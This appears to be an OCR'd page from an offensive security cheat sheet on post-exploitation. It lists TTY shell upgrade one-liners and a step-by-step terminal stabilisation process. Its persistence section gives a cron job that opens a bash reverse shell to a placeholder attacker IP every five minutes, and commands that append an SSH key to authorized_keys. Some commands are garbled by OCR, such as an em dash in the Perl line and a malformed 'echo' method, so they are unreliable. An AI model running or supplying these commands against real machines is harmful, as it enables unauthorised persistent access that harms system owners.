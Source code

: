 ## Shell Upgrade Techniques

### TTY Shell Upgrade

| Method | Command | Platform |
|--------|---------|----------|
| **Python PTY** | `python -c 'import pty; pty.spawn("/bin/bash")'` | Linux |
| **Echo method** | `echo os.system('/bin/bash')` | Linux |
| **sh upgrade** | `/bin/sh -i` | Unix/Linux |
| **Perl** | `perl —e 'exec "/bin/sh";'` | Unix/Linux |

### Full TTY Shell Process

```bash
# Step 1: Spawn PTY
python -c 'import pty; pty.spawn("/bin/bash")'

# Step 2: Background session
Ctrl+Z

# Step 3: Set terminal
stty raw -echo

# Step 4: Foreground session
fg

# Step 5: Set environment
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 38 columns 116
```

## Persistence Mechanisms

### Cron Jobs

```bash
# Add reverse shell to cron
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" | crontab -
```

### SSH Keys

```bash
# Add SSH key for persistence
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
